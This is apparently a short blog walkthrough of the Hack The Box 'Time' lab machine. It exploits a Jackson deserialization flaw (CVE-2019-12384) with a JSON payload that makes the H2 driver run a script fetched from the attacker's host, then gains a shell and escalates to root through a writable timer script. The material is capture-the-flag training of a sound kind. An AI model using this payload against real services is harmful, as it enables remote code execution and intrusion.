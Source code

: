 ```yaml
---
layout: post
title:  Hack The Box - Time
category: walkthrough
date:   2020-10-25 06:21:00
---
```

# ![time](/assets/img/time/time.png)  
Time is a medium machine created by  [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858) & [felamos](https://www.hackthebox.eu/home/users/profile/27390)   
Opened the ip with firefox  
Eentering "test" with validator(beta) selected. It shows the processor - fasterxml/jackson
![browser](/assets/img/time/time2.png)  

### Exploit 
Found ![this](https://github.com/jas502n/CVE-2019-12384) exploit after google  
Changed the file inject.sql
![inject.sql](/assets/img/time/time4.png)  

Opened my python srver, started nc and used this payload to upload inject.sql to the server
>[
>"ch.qos.logback.core.db.DriverManagerConnectionSource", 
>     {
>        "url":
>"jdbc:h2:mem:;TRACE\_LEVEL\_SYSTEM\_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.XX.XX:80/inject.sql'"
>  }
>]
![payload](/assets/img/time/time3.png)  

![server](/assets/img/time/time5.png)  
Got shell as pericles and found a writable file in /bin  
![periclesHome](/assets/img/time/time8.png)  
![timer\_backup](/assets/img/time/time6.png)  
Edited the file to get root's flag  
![editTimer](/assets/img/time/time7.png)  
![flag](/assets/img/time/time9.png)  


